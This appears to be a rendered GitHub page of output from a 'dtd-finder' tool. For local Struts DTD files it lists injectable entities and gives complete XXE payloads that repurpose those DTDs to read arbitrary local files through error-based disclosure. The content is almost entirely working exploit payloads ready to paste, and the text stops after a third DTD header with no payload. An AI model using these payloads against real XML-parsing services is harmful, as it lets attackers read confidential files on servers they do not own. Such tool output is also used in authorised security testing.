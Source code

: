  --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_2.dtd`

**Injectable entity:** `RequestScope`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_2.dtd">

    <!ENTITY % RequestScope '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_1.dtd`

**Injectable entity:** `AttributeName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_1.dtd">

    <!ENTITY % AttributeName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/struts/struts-config_1_1.dtd`
